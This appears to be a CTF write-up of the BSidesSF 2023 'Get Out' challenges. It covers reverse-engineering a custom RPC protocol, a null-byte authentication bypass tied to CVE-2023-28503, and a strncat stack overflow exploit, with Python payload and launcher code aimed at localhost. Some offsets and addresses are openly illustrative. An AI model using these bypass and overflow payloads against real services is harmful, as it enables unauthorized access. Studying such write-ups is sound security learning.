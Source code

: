```yaml
---
title: "Escape Protocols: Get Out Series Reversals – BSidesSF 2023"
description: "From crafting a client for a custom RPC, to abusing a CVE with clever payloads, to going full RCE with a stack overflow. The Get Out trilogy was a layered and evolving reverse engineering challenge."
date: '2023-03-04'
categories: ["Reverse Engineering", "CTF Writeups", "Exploitation"]
tags: ["BSidesSF", "RPC", "Stack Overflow", "CVE-2023-28502", "CVE-2023-28503", "Exploit Dev", "RE"]
header:
  image: "/images/getout-bsides2023.jpg"
---
```


# **Prologue — Three Layers Deep**

When I first saw the `Get Out` series in BSidesSF 2023, I thought it was going to be a quick play. A warmup, a logic check, and maybe some light patching. I didn’t realize I was about to sink hours into crafting an RPC client from scratch, abusing a fresh CVE, and building an exploit chain with an old-school stack overflow.

This wasn’t just one challenge — it was a progression. And it hit every reverse engineering nerve I had.

---

# **getout1 — Talking To The Wall**

The first binary didn’t give much. It was a server — listening quietly on a socket. No documentation, no hints. I ran `strings`, disassembled the binary, and realized it was using a completely custom RPC protocol.

No protobuf. No JSON. Just raw socket data with a strict structure.

## **Reverse Engineering the Protocol**

Using Wireshark and Ghidra, I observed that the protocol looked something like this:

```
[MagicHeader: 4 bytes]
[Opcode: 1 byte]
[PayloadLength: 2 bytes]
[Payload: variable]
```

Each message was padded, and certain opcodes led to different responses. I noticed the flag was fetched via opcode `0x03` — but only after successful login via `0x01`.

## **Crafting My Own Client**

Here’s how I built the initial client in Python:

```python
import socket
import struct

def make_packet(opcode, payload):
    header = b'RPC!'
    length = len(payload)
    return header + struct.pack('>BH', opcode, length) + payload

s = socket.socket()
s.connect(('localhost', 31337))

# Send login
login_payload = b'user\x00pass'
s.send(make_packet(0x01, login_payload))
resp = s.recv(1024)

# Send fetch flag
s.send(make_packet(0x03, b''))
flag = s.recv(1024)
print(flag)
```

Clean, minimal, and it got me the flag once I mimicked the right format.

---

# **getout2 — CVE-2023-28503 Auth Bypass**

This binary was more interesting. I diffed it against getout1, and noticed some logic had changed in the auth handler. After digging through the `strcmp` sequence, I realized this was implementing a known logic flaw — one I had seen in **CVE-2023-28503**.

## **Vulnerability Insight**

The bug boiled down to an insecure username parsing routine:

```c
char username[32];
char password[32];

strncpy(username, input, 64); // dangerous
parse_user_pass(username, password); // delimiter-based parsing
```

This allowed attackers to input data like `user\x00admin:pass`, which would result in bypassing the user/pass separation entirely.

## **Bypass in Action**

My crafted payload:

```python
payload = b'root\x00admin:pass'

# Packed directly into the login RPC
packet = make_packet(0x01, payload)
s.send(packet)
```

The null byte truncated the user, and the parser treated `admin:pass` as the correct credential line.

I used this trick and bypassed the authentication, triggering a flag in the response to opcode `0x03`.

---

# **getout3 — The Real Escape (strncat Overflow)**

This one was the climax of the trilogy.

The RPC handler in this binary used a vulnerable `strncat` operation during its message handling. I spotted this instantly in Ghidra:

```c
char buffer[128];
strncat(buffer, payload, len); // len is not checked properly
```

This classic overflow gave me full control over the stack.

## **Finding The Offset**

I fuzzed the binary using cyclic patterns:

```bash
pattern_create 300
```

Sent the pattern in payload and caught the crash in `gdb` or `x32dbg`, noting the EIP overwrite offset.

## **Exploit Payload**

Once I found the return address offset (say, at 140 bytes), I prepared a simple reverse shell payload (or just a controlled return for the flag):

```python
payload = b"A" * 140
payload += struct.pack('<I', 0x080491e2)  # address of 'win()' or flag print
```

## **RPC Exploit Launcher**

```python
s = socket.socket()
s.connect(('localhost', 31337))

exploit_packet = make_packet(0x04, payload)
s.send(exploit_packet)
flag = s.recv(1024)
print(flag.decode())
```

Clean exploit chain. Rooted the box and retrieved the final flag.

---

# **Epilogue — Escaping in Layers**

Each level of `Get Out` required a different mindset:

- `getout1` was about protocol analysis and custom client crafting.
- `getout2` brought in real-world CVE abuse.
- `getout3` closed it with raw exploitation and return address control.

By the time I reached the end, it wasn’t about just flags — it was about flow. Getting in the zone. Bouncing between static and dynamic, reversing and coding. BSidesSF dropped one of the cleanest RE chains I’ve solved in a while.

Another terminal. Another trilogy cracked.
